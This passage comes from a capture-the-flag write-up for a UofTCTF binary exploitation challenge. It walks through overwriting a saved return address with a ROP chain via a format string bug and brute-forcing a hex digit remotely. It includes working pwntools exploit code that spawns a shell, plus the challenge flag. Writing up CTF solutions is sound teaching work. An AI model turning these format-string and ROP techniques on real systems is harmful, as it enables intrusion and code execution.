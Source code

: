 (Note that the `input()` is there to make sure this input doesn't overlap with the previous one, since `read()` can be finicky when simultaneousy using `pwntools` and debugging with `GDB`)  

### rop rop rop

Now it's ROP time!  

The idea is simple. Using the stack address we leaked, we're going to overwrite one of the several saved RIPs on the stack. (There are multiple saved RIPs that point back to `vuln+87` as a result of multiple calls to `__stack_chk_fail()`). We'll write a full ROP chain there using the format string vuln, this time with ease because of the nice functionality provided by `pwntools`. Then, finally, in our last call to `vuln()`, we'll send a single byte for the input -- this will make the program not call `__stack_chK_fail()` (aka `vuln()`), and subsequently return (eventually to our ROP chain)!  

### bof...?

As I'm writing this writeup, I'm realizing that there was absolutely no need to use the format string vuln to write my ROP chain. I could've just used the buffer overflow to write in the ROP chain and win that way. Oh well ¯\\_(ツ)_/¯ 

Anyways, here's the final sequence:  

```py
input()

binsh = next(libc.search(b"/bin/sh\x00"))
rop = ROP(elfs=libc)
rop.raw(rop.ret.address)
rop.rdi = binsh
rop.call('system')
payload = b'A'
writes = {next_frame_rsp + 24 + i*8: rop.build()[i] for i in range(len(rop.build()))}
payload += fmtstr_payload(offset=7, numbwritten=1, writes=writes, write_size='short')
send(payload, line=True)

input()

payload = b'A'
send(payload, line=False)
```

(Again, `input()` because `read()` is finicky)  

### brute force remote!

Remember, we need to brute force that 4th least significant hex digit! This is pretty simple -- just throw all the code in a while(True) loop and `continue` if, after the leakless write attempt, you get a *segmentation fault*.  

Once we pop the shell, we just run `cat flag.txt` and get the flag!  

    uoftctf{c4n4ry_15_u53l355_1f_607_15_wr174bl3}

\* Postscript: my elf leak didn't work on remote for some reason, so I spent like an hour trying to figure out why I was getting SIGILL :sob: finally just tried to switch my ROP to libc only, and it worked perfectly.  
